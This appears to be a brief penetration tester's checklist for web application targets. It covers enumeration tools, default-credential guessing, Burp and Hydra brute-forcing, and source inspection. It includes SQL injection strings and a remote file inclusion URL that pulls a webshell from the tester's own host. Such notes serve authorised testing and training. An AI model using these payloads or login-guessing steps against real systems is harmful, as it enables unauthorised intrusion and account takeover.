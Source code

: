 Web App Playbook

* Feroxbuster
* Curl
* If https, view certificate
* If login page found:
   * Try basic creds (admin/admin, root/root, admin/website name, etc.)
* Try basic SQLI (`asdf' or 1=1--`, `asdf' or 1=1;`, etc.)
* F12
* What software is the server using?
* View page source
   * Look for plaintext creds
   * Software/version enumeration
* Look up default admin pages/creds for any CMS found
* Burp
*   See what how authentication requests work
*   Hydra/intruder
* Try creds found in other enumeration (services on other ports, etc., if available)
* Does the page use php?  Try basic RFI: `http://example.com/index.php?page=http://<kali ip>/<webshell.php>`
   * (use index.php, or if you find a different php file, use that)
